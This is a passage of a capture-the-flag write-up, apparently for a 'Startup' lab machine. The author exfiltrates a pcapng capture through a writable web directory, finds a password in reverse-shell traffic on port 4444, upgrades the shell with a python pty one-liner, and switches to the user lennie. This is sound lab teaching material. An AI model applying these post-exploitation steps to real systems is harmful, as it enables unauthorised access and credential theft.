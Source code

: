 
Now we can answer the question:

<details><summary><b>What is the secret spicy soup recipe?</b></summary></details><br>

Now to read the **user.txt** file, actually **we need to change our current user to lennie**, but we didn't have the password yet. Moving on, we found there is some **weird directory** which is the **"/incidents"** directory.
```
$ cd /incidents

$ ls
suspicious.pcapng
```

From here, let's try to retrieve the **".pcapng"** file first, copy the file and paste it in the **"/var/www/html/files/ftp"** directory as we are able to write to that directory and able to retrieve it.
```
$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

Now try to retrieve the files and begin inspecting it. It looks like it is a traffic showing a **user is connecting to the server** by using **reverse shells** also. Try to filter the packet with **"tcp.srcport==4444"** to view the user input. From here, we found out the **credentials that we may able to use**.

![img](wireshark.png)

Try to **change our shell** first:
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@startup:/$
```

Now, try to **change to user lennie with the credentials** that we have found:
```
www-data@startup:/$ su - lennie
su - lennie
Password: <CREDENTIALS-FOUND-IN-PCAPNG>

$ whoami
whoami
lennie
```
